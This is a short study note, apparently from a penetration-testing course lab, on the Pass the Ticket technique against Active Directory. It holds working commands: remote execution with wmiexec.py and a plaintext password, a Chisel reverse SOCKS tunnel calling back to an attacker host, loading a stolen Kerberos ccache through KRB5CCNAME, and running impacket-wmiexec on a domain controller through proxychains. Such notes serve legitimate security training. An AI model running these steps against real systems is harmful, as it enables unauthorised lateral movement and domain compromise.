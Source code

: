 ```yaml
---
tags:
  - PtT
---
```

```shell-session
$ wmiexec.py Cry0l1t3:'P455w0rD!'@10.129.201.248 "hostname"

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] SMBv3.0 dialect used
ILF-SQL-01
```
# Pass the Ticket
To execute this attack, we need to proxy traffic via `MS01` with a tool such as [[File Transfer#Chisel|Chisel]] and #proxychains and edit the `/etc/hosts` file to hardcode IP addresses of the domain and the machines we want to attack.

```shell-session
$ cat /etc/proxychains.conf

<SNIP>

[ProxyList]
socks5 127.0.0.1 1080
```

- On attack host:
```shell-session
$ sudo ./chisel server --reverse
```
- On Windows host:
```cmd-session
> chisel.exe client <ATTACKER-IP>:8080 R:socks
```
- Set the environment variable `KRB5CCNAME` with the path of targeted user's ccache file:
```shell-session
$ export KRB5CCNAME=/Path/to/krb5cc_file
```
- Finally, to use the Kerberos ticket, specify the target machine name (not IP!) and use `-k`. If prompted for a password, include `-no-pass`.
```shell-session
$ proxychains impacket-wmiexec dc01 -k [-no-pass]
```

Once the Kerberos ticket (as `ccache`) is loaded and verified with [[klist]], we can perform the above command